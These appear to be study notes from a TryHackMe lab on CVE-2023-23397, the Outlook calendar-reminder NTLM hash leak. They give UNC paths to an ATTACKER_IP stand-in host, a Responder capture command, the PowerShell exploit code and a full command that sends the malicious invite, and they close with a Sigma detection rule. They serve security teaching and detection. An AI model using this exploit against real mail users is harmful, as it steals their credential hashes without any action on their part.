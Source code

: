 ## Table of Contents


On Outlook, it's possible to add reminder notifications when sending calendar invitations:  

![Outlook Appointments](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/a62596e7262ef8119a558ee9598ec2ef.png)


You can specify the audio file played when a user gets a notification reminder for a calendar meeting or event. Typically, this would be used for a user to set up their own notifications by pointing to an audio file:

![Reminder Sound Configuration](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/471b82a81e0a4b210191dafe1a0a55e1.png)

Manipulating this parameter can enable a threat actor to force Outlook to leak the current password hashes to an attacker with zero interaction required.



To set up the **PidLidReminderFileParameter** property to point to a network share, the attacker can specify a **Universal Naming Convention (UNC)** path instead of a local file. UNC is used in Windows operating systems to find network resources (files, printers, shared documents). These paths consist of a double backslash, the IP address or name of the computer hosting the resource, the share name and the file name. For example:

`\\ATTACKER_IP\foo\bar.wav`

When the victim receives the malicious email, the UNC path directs them to that SMB share, triggering the vulnerability. This causes the system to start an NTLM authentication process against the attacker's machine, leaking a Net-NTLMv2 hash that the attacker can later try to crack.

![Exploiting the Vulnerability](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c841bc06b6cfd44c8453d21204a9927b.png)

If for some reason the SMB protocol isn't a viable alternative to use, non-server versions of Windows will accept using UNC paths pointing to ports 80 or 443, and use HTTP to retrieve the file from a WebDAV-enabled web server. The syntax of such UNC path is as follows:


`\\ATTACKER_IP@80\foo\bar.wav`

`\\ATTACKER_IP@443\foo\bar.wav`

This may be useful to bypass firewall restrictions preventing outgoing connections to port 445 (SMB).

[!UNC Paths](obsidian://open?vault=Notes-Ubuntu&file=UNC%20Paths)



Setting up Responder

Since we expect the victim to trigger an authentication attempt against the attacker on port 445, we will set up Responder to handle the authentication process and capture the NetNTLM hash for us. If you are unfamiliar with Responder, it will simply emulate an SMB server and capture any authentication attempt against it.

To launch Responder to listen for authentication attempts in your `ens5` interface, you can simply run the following command in your AttackBox:

AttackBox

```shell-session
root@attackbox$ responder -I ens5
```

We are now ready to trigger an authentication attempt via the Outlook vulnerability.

Attempting to Handcraft a Malicious Appointment

As a first attempt, we could manually create an appointment and edit the path to the reminder's sound file to point to a shared folder. To create an appointment, you will first need to click on the calendar and then on the New Appointment button on the taskbar, as shown in the image below:


From this window, you can see the parameters associated with the appointment's reminder. We want to set the **ReminderSoundFile** parameter to the UNC path that points to our AttackBox and set both the **ReminderOverrideDefault** and **ReminderPlaySound** to `true`. Just for reference, here's what each parameter does:

- **ReminderPlaySound:** boolean value that indicates if a sound will be played with the reminder.
- **ReminderOverrideDefault**: boolean value that indicates the receiving Outlook client to play the sound pointed by **ReminderSoundFile**, instead of the default one.
- **ReminderSoundFile**: string with the path to the sound file to be used. For our exploit, this will point to a bogus shared folder in our AttackBox.

We can use the script tab and the following script to change the parameters to the required values:  

![Modifying Email Parameters](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/d234c96f9fb857da332b0d058b703081.png)  

Be sure to click the `Run` button for the changes to be applied. You can go back to the `Properties` tab to check that the values were correctly changed. Finally, save



Summarising the steps required to exploit the vulnerability, an attacker would need to:  

1. Create a malicious meeting/appointment with a custom reminder sound pointing to a UNC path on the attacker's machine.
2. Send the invite to the victim via email.
3. Wait for the reminder to trigger a connection against the attacker's machine.
4. Capture the Net-NTLMv2 hash, use authentication relaying, or profit in any other way.

Steps 3 and 4 are already covered for us by `Responder`, but handcrafting the malicious appointment by hand is a bit tedious. Luckily, a couple of exploits are readily available for us to create and send a malicious appointment. 

In this task, we will look at the exploit published by [Oddvar Moe](https://github.com/api0cradle), which is probably the easiest to understand and use. This Powershell exploit leverages Outlook's COM objects to build emails and appointments easily. It contains a couple of functions that we can use:

- **Save-CalendarNTLMLeak:** This function creates a malicious appointment and saves it to your own calendar. Useful for testing purposes.
- **Send-CalendarNTLMLeak:** This function creates a malicious appointment and sends it via email to a victim. The email invitation will be sent from your Outlook's current default account.

Dissecting the Exploit's Code

Both will create an appointment similarly, so we'll explain the **Save-CalendarNTLMLeak** only. 

First, we will instantiate an "Outlook.Application" object and create an appointment.

```powershell
$Outlook = New-Object -comObject Outlook.Application
$newcal = $outlook.CreateItem('olAppointmentItem')
```

The usual parameters of an appointment will be set. These include the recipients, meeting subject, location, body and start and end dates. The exploit sets the start day to the current time so that the reminder is triggered immediately:

```powershell
$newcal.Recipients.add($recipient)
$newcal.MeetingStatus = [Microsoft.Office.Interop.Outlook.OlMeetingStatus]::olMeeting
$newcal.Subject = $meetingsubject
$newcal.Location = "Virtual"
$newcal.Body = $meetingbody
$newcal.Start = get-date
$newcal.End = (get-date).AddHours(2)
```

The following additional parameters will be configured to point the reminder's sound file to the attacker's server, as previously explained:

```powershell
$newcal.ReminderSoundFile = $remotefilepath
$newcal.ReminderOverrideDefault = 1
$newcal.ReminderSet = 1
$newcal.ReminderPlaysound = 1
```

Finally, the appointment will be sent to the recipient via email:

```powershell
$newcal.send()
```

Using the Exploit

You can import the exploit's functions with the Import-Module cmdlet. After that, both functions will be available in your current Powershell. To send an email with a malicious appointment, you can just run the following command:


You can import the exploit's functions with the Import-Module cmdlet. After that, both functions will be available in your current Powershell. To send an email with a malicious appointment, you can just run the following command:

Powershell

```shell-session
PS C:\> cd C:\Users\Administrator\Desktop\
PS C:\Users\Administrator\Desktop\> Import-Module .\CVE-2023-23397.ps1
PS C:\Users\Administrator\Desktop\> Send-CalendarNTLMLeak -recipient "test@thm.loc" -remotefilepath "\\ATTACKER_IP\foo\bar.wav" -meetingsubject "THM Meeting" -meetingbody "This is just a regular meeting invitation :)"
```

This [Sigma Rule](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_rundll32_webdav_client_susp_execution.yml) looks to detect svchost.exe spawning rundll32.exe with command arguments like `C:\windows\system32\davclnt.dll,DavSetCookie`, which indicates a post-exploitation/exfiltration phase.  

```c
title: Suspicious WebDav Client Execution
id: 982e9f2d-1a85-4d5b-aea4-31f5e97c6555
status: experimental
description: 'Detects "svchost.exe" spawning "rundll32.exe" with command arguments
  like C:\windows\system32\davclnt.dll,DavSetCookie. This could be an indicator of
  exfiltration or use of WebDav to launch code (hosted on WebDav Server) or potentially
  a sign of exploitation of CVE-2023-23397

  '
references:
- https://twitter.com/aceresponder/status/1636116096506818562
- https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/
- https://www.pwndefend.com/2023/03/15/the-long-game-persistent-hash-theft/
author: Nasreddine Bencherchali (Nextron Systems), Florian Roth (Nextron Systems)
date: 2023/03/16
tags:
- attack.exfiltration
- attack.t1048.003
- cve.2023.23397
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    ParentImage|endswith: \svchost.exe
    Image|endswith: \rundll32.exe
    CommandLine|contains: C:\windows\system32\davclnt.dll,DavSetCookie
    CommandLine|re: ://\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}
  filter_local_ips:
    CommandLine|contains:
    - ://10.
    - ://192.168.
    - ://172.16.
    - ://172.17.
    - ://172.18.
    - ://172.19.
    - ://172.20.
    - ://172.21.
    - ://172.22.
    - ://172.23.
    - ://172.24.
    - ://172.25.
    - ://172.26.
    - ://172.27.
    - ://172.28.
    - ://172.29.
    - ://172.30.
    - ://172.31.
    - ://127.
    - ://169.254.
  condition: selection and not 1 of filter_*
falsepositives:
- Unknown
level: high
```

These SIGMA rules can be converted into the detection and monitoring tool to hunt for suspicious log activity within the network. To learn more about SIGMA rules, check this introductory room on [Sigma](https://tryhackme.com/room/sigma).